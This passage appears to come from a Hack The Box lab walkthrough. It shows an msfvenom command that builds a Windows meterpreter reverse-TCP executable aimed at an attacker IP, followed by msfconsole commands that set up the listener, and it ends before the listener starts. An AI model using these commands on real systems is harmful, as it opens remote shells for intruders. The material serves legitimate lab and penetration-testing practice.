 {% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<HTB_TUN_IP/Attacker_IP> LPORT=4444 -f exe >> rev.exe
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Untitled 33 (2).png" alt=""><figcaption></figcaption></figure>

We have successfully created the reverse shell.

### Setting up msfconsole

To set up a listener for the reverse shell to connect back, open msfconsole and enter the following commands:

```bash
use exploit/multi/handler
set lhost <HTB_TUN_IP/Attacker_IP>
set payload windows/x64/meterpreter/reverse_tcp
```

<figure><img src="../../.gitbook/assets/Untitled 37 (2).png" alt=""><figcaption></figcaption></figure>

Now its time to start the listener.
